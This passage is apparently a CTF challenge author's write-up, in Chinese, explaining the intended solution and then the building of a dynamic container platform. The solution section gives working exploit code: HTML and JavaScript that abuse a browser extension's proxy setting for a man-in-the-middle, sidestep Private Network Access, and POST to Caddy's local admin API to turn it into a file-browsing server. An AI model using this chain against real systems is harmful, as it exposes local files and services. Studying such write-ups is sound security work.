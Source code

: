 这里也考虑过等待content script执行完再加载用户内容，但是如果使用document.write会导致content script的message监听失效，无法完成后面再触发一次修改代理的功能，索性就直接放在那里了。

第二步是重新触发blocker.js，只需把js文件再引入一遍即可，代码会再执行一遍。然后代理会被设置到我们所指定的地址，这时候就可以进行中间人攻击。这时我们需要加载一个新的页面，一开始的想法是iframe，但是这个iframe的加载和代理切换的顺序不是很稳定，需要将iframe设置为lazyloading，再利用css进行一些延时才能稳定触发。后来意识到可以用meta标签控制延时跳转就可以了。

这个中间人的服务器可以直接用PHP的内置web server，我发现他会忽略url的host部分直接匹配路径。

这两步的代码：

```html
<a id="proxy_options" href="http://server"></a>
<script src="/static/js/blocker.js"></script>
<meta http-equiv="refresh" content="1; URL='/exp.html'" />
```

然后在我们的服务器上创建这个exp.html。

主要的步骤也是两步：

第一步，重新将代理设置回127.0.0.1，绕过PNA，然后加载一个新的web页面，这个web页面不能是之前index之类的已缓存的页面，缓存页面的远程地址是第一次加载的地址，随便请求一个404就可以了。

第二步，因为加载的是同源的页面，所以可以直接控制页面内容，在这个新的页面上面发送请求，修改caddy的配置，将其变成文件浏览服务器。

```js
  window.postMessage({ type: "setProxy", options: { hostname: "127.0.0.1", port: 8080 } },"*");
  setTimeout(function () {
    const iframe = document.createElement("iframe");
    iframe.src = "/404";
    document.body.appendChild(iframe);
    setTimeout(function () {
      iframe.contentWindow.eval('fetch("http://127.0.0.1:2019/config/",{"method":"POST","body":`{"apps":{"http":{"http_port":8888,"https_port":8443,"servers":{"srv0":{"listen":[":8888"],"routes":[{"handle":[{"handler":"vars","root":"/"},{"browse":{},"handler":"file_server"}],"terminal":true}],"automatic_https":{"disable_redirects":true}}}}}}`,"mode":"no-cors","headers":{"content-type":"text/plain;/json"}})');
    }, 100);
  }, 100);
```

这样这个题就完成了

## 运维

本以为题出完了就完事儿了，结果又遇到一个大问题，因为预期解需要修改caddy并将其变成文件服务器，这样一来只要一个人打通了那么肯定会遇到很多人上车一起拿flag，即使设置定时重启也不太管用，因此必须需要动态容器，此时去年就计划的统一容器还在咕咕咕，所以我只好在离开赛还有两天的时间内自己开发一个动态容器平台出来。

本着开发点东西就尝试点新东西的奇怪想法，我决定用之前没用过的fastapi和tortoise实现一个纯异步的平台，在开发这个平台的时候我也踩了好多坑，不过最后还是开发出来了，虽然有一些预想的功能没有实现完，但是核心的认证，申请容器，交flag都已经完成了。其实说是异步，docker的请求没有做成异步，因为那个aiodocker实在是太拉了，最后还得用官方的sdk。

不过在实际线上运行的时候由于做题的人数实在太少，所以没看出来它暴露的bug，这个运维可谓是一帆风顺。而且我省吃俭用省下的内存竟然没有意义，全程几乎没有超过两个人同时开容器，我只能呜呜呜了。

后来梅子酒师傅也想用我这个动态容器，但他的题有两个container还需要创建一个网络，这就是完全没有考虑进去的内容了，所以只好作罢。

总之有机会还是想继续完善一下这个容器平台，希望能实现多节点部署和完整的docker-compose的支持。

最后这个半成品项目在[challenged](https://github.com/HSwift/challenged)，我会尽快把功能完善好（大概

## 总结

其实没啥好总结的，只有rmb122做出来了，并且完全按照预期。希望明年整的活能多点人做，可不要变成0啊喂